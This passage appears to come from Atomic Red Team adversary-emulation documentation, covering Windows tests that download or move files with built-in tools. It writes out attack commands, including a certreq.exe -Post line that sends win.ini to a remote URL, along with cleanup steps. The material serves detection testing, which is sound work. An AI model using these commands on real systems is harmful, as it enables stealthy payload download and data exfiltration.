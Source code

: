 #### Attack Commands: Run with `command_prompt`!

```cmd
del %TEMP%\redcanary.cab >nul 2>&1
#{Path_replace} #{replace_cab} %TEMP% /A
```

#### Cleanup Commands:

```cmd
del %TEMP%\redcanary.cab >nul 2>&1
```

<br/>
<br/>

## Atomic Test #25 - certreq download

Use certreq to download a file from the web

**Supported Platforms:** Windows

**auto_generated_guid:** 6fdaae87-c05b-42f8-842e-991a74e8376b

#### Inputs:

| Name        | Description              | Type   | Default Value                 |
| ----------- | ------------------------ | ------ | ----------------------------- |
| local_path  | Local path to place file | string | %temp%&#92;Atomic-license.txt |
| remote_file | URL of file to copy      | url    | https://example.com           |

#### Attack Commands: Run with `command_prompt`!

```cmd
certreq.exe -Post -config #{remote_file} c:\windows\win.ini #{local_path}
```

#### Cleanup Commands:

```cmd
del #{local_path} >nul 2>&1
```

<br/>
<br/>

## Atomic Test #26 - Download a file using wscript

Use wscript to run a local VisualBasic file to download a remote file

**Supported Platforms:** Windows

**auto_generated_guid:** 97116a3f-efac-4b26-8336-b9cb18c45188

#### Inputs:
